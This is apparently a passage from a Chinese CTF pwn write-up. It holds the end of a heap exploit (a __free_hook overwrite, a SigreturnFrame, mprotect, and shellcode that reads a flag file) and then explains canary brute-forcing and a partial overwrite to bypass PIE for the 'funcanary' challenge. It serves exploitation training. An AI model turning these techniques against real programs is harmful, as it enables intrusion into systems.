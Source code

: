 ```python
edit(3,0x20,p64(freehook))
add(11,0x80,p64(gadget).ljust(0x80,'\x00'))
frame = SigreturnFrame()
mprotect=libcbase+libc.sym['mprotect']
flagaddr=heapaddr+0x2000
shellcode=shellcraft.open('flag',0,0)
shellcode+=shellcraft.read(3,flagaddr,0x50)
shellcode+=shellcraft.write(1,flagaddr,0x50)

frame.rsp = heapaddr+0x1618
frame.rdi=heapaddr+0x1000
frame.rsi=0x1000
frame.rdx=7
frame.rip = mprotect
print("len->"+hex(len(str(frame))))
add(12,0xf0,p64(setcontext+61)+p64(heapaddr+0x1500-0x40)+str(frame)[0x30:0x110])
conts="flag"+"\x00"*4+p64(heapaddr+0x1620)+asm(shellcode)
add(13,len(conts),conts)
#dbg()
delete(12)




p.interactive()
```
## funcanary（fork爆canary与partial write绕PIE）
#### 静态分析
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685457528760-5afab287-cd24-48fb-8df0-edf4a937da2a.png#averageHue=%23090605&clientId=ud8d6c821-098d-4&from=paste&height=189&id=uc69ed217&originHeight=312&originWidth=1017&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=91553&status=done&style=none&taskId=ua5952529-7549-467e-8a85-5e245e9bbc0&title=&width=616.3636007387796)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454166108-7ff83e3f-497f-47d9-b6ed-3b58497f9bd5.png#averageHue=%23030201&clientId=ud8d6c821-098d-4&from=paste&height=411&id=u99b1ca38&originHeight=678&originWidth=1079&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=59315&status=done&style=none&taskId=u3e960d71-3489-452f-944e-c14254b3a9c&title=&width=653.9393561427171)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454183627-e6ac812e-c7d1-421f-a7fa-73f83421f86b.png#averageHue=%23040302&clientId=ud8d6c821-098d-4&from=paste&height=208&id=u309ff6d8&originHeight=343&originWidth=1074&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=40322&status=done&style=none&taskId=u1ad53f48-79dc-478b-8028-b28ba88e434&title=&width=650.9090532875608)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454225862-aab2ce0f-bf52-4a45-b0ab-a8360dbbe134.png#averageHue=%237e7d7d&clientId=ud8d6c821-098d-4&from=paste&height=581&id=u201462eb&originHeight=958&originWidth=1248&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=85822&status=done&style=none&taskId=u84b779cd-ab4f-49d8-a3fd-4618f936276&title=&width=756.3635926469981)<br />很够的一点：存在一个IDA无法识别的后门函数<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685454362493-c2d0e27f-87ba-4157-a99b-0dca8d250988.png#averageHue=%23080202&clientId=ud8d6c821-098d-4&from=paste&height=281&id=u882555e6&originHeight=464&originWidth=1619&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=64498&status=done&style=none&taskId=u7e404163-5e56-4325-81ae-d00df19c64d&title=&width=981.2120644995912)
> 找到这个后门的方法：
> shift + F2 查找 string
> 发现敏感字符串
> Alt + T 查找所有引用的字符串
> 最后就找到了这个后门函数

因为开启了PIE，所以要用这个后门，还得绕过PIE的保护。
> partial write就是利用了PIE技术的缺陷。我们知道，内存是以页载入机制，如果开启PIE保护的话，只能影响到单个内存页，一个内存页大小为0x1000，那么就意味着不管地址怎么变，某一条指令的后**三位十六进制数的地址是始终不变的**。因此我们可以通过覆盖地址的后几位来可以控制程序的流程

注意：只有后三位不变！！！<br />![Snipaste_2023-05-30_22-30-32.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685458799001-313f2497-14a6-42ed-9134-ea5503c057d1.png#averageHue=%23050403&clientId=u0082e65c-a6da-4&from=paste&height=244&id=ua87dcb3b&originHeight=402&originWidth=1940&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=141466&status=done&style=none&taskId=u622db2c6-a497-4e81-b35a-daac84369d9&title=&width=1175.757507800622)
#### 最终思路
想要利用栈溢出，必须绕过PIE和CANARY保护，由于此处是read可以不接受换行符，我们可以用pwntools中的p.send然后爆破canary，爆破完canary之后，由于overflow函数的返回地址是一个TEXT段上的地址(rebase(0x1329))，并且发现很狗的是程序中还隐藏了一个IDA识别不出来的后门函数。
#### 脚本一：爆破第4位
```c
from pwn import *

elfname = './funcanary'
#libcname = './libc.so.6'

p = process(elfname)

elf = ELF(elfname)

context.log_level = 'debug'
context.arch = 'amd64'

```